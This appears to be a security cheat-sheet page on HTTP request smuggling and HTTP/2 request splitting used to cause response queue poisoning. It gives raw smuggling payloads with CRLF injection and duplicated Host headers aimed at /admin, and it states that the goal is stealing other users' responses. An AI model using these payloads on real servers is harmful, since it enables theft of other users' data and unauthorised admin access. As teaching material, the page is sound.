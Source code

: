 This attack can occur through HTTP/1 request smuggling or HTTP/2 downgrading.

You need to smuggle a complete request.

With this technique you can steal other users' responses.

**(CL)**

```http
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Type: x-www-form-urlencoded\r\n
Content-Length: 61\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /anything HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```

## HTTP/2 request splitting

This approach is more versatile, allowing even GET requests without relying on methods that support a body.

```http
:method	        GET
:path	        /
:authority      vulnerable-website.com
foo             bar\r\n
                \r\n
                GET /admin HTTP/1.1\r\n
                Host: vulnerable-website.com
```

During rewriting, some front-end servers append the new `Host` header after existing ones. With HTTP/2, this places it after the `foo` header, leaving the first request without a `Host` header and the smuggled one with two. Inject your `Host` header so that it ends up in the first request once.

```http
:method	        GET
:path	        /
:authority      vulnerable-website.com
foo             bar\r\n
                Host: vulnerable-website.com\r\n
                \r\n
                GET /admin HTTP/1.1
```

{{< hint style=notes >}}
**Note**: here the request triggerg response queue poisoning, but you can also smuggle prefixes for classic request smuggling.
{{< /hint >}}
